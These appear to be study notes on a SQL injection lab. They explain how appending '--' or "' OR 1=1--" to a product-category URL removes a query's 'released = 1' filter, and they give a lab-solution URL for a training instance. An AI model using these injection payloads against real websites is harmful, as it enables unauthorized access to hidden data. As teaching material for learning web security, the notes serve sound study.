 - Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:
```js
https://insecure-website.com/products?category=Gifts
```
- This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```sql
'SELECT * FROM products WHERE category = 'Gifts' AND released = 1'
```
- This SQL query asks the database to return:
	-  all details (*)
	-   from the products table
	-   where the category is Gifts
	-   and released is 1
- The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`.

## If the developer doesn't implement any defenses agains SQL 

- The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:
```js
`https://insecure-website.com/products?category=Gifts'--`
```

- Above results in SQL query:
  ```sql
  `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
```
- The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`
- In simple words, This means that all products are displayed, including unreleased products.
- Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:
```js 
`https://insecure-website.com/products?category=Gifts'+OR+1=1--`
```

- This results in the SQL query:
```sql 
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
```
- Since `1=1` is always true, the query will return all items.

## LAB solution
- In search bar, use
```js
https://0abc005a043455c5803d71dd00670030.web-security-academy.net/filter?category=Gifts%27+or+1=1--
```